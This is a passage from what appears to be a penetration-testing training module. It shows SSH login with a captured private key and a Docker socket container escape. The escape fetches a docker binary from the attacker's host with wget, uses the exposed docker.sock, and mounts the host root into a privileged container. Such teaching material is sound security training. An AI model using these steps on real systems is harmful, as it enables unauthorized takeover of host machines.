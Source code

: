 
From here on, we could copy the contents of the private SSH key to `cry0l1t3.priv` file and use it to log in as the user `cry0l1t3` on the host system:
```shell-session
$ ssh cry0l1t3@<host IP> -i cry0l1t3.priv
```

### Docker Sockets

A Docker socket or Docker daemon socket is a special file that allows us and processes to communicate with the Docker daemon. This communication occurs either through a Unix socket or a network socket, depending on the configuration of our Docker setup. It acts as a bridge, facilitating communication between the Docker client and the Docker daemon. When we issue a command through the Docker CLI, the Docker client sends the command to the Docker socket, and the Docker daemon, in turn, processes the command and carries out the requested actions.

Nevertheless, Docker sockets require appropriate permissions to ensure secure communication and prevent unauthorized access. By exposing the Docker socket over a network interface, we can remotely manage Docker hosts, issue commands, and control containers and other resources. This remote API access expands the possibilities for distributed Docker setups and remote management scenarios. However, depending on the configuration, there are many ways where automated processes or tasks can be stored. Those files can contain very useful information for us that we can use to escape the Docker container.
```shell-session
htb-student@container:~/app$ ls -al

total 8
drwxr-xr-x 1 htb-student htb-student 4096 Jun 30 15:12 .
drwxr-xr-x 1 root        root        4096 Jun 30 15:12 ..
srw-rw---- 1 root        root           0 Jun 30 15:27 docker.sock
```

From here on, we can use the `docker` to interact with the socket and enumerate what docker containers are already running. If not installed, then we can download it [here](https://master.dockerproject.org/linux/x86_64/docker) and upload it to the Docker container.
```shell-session
htb-student@container:/tmp$ wget https://<parrot-os>:443/docker -O docker
htb-student@container:/tmp$ chmod +x docker
htb-student@container:/tmp$ ls -l

-rwxr-xr-x 1 htb-student htb-student 0 Jun 30 15:27 docker


htb-student@container:~/tmp$ /tmp/docker -H unix:///app/docker.sock ps

CONTAINER ID     IMAGE         COMMAND                 CREATED       STATUS           PORTS     NAMES
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago    Up 12 minutes    443/tcp   app
<SNIP>
```

We can create our own Docker container that maps the host’s root directory (`/`) to the `/hostsystem` directory on the container. With this, we will get full access to the host system. Therefore, we must map these directories accordingly and use the `main_app` Docker image.
```shell-session
htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
htb-student@container:~/app$ /tmp/docker -H unix:///app/docker.sock ps

CONTAINER ID     IMAGE         COMMAND                 CREATED           STATUS           PORTS     NAMES
7ae3bcc818af     main_app      "/docker-entry.s..."    12 seconds ago    Up 8 seconds     443/tcp   app
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago        Up 17 minutes    443/tcp   app
<SNIP>
```

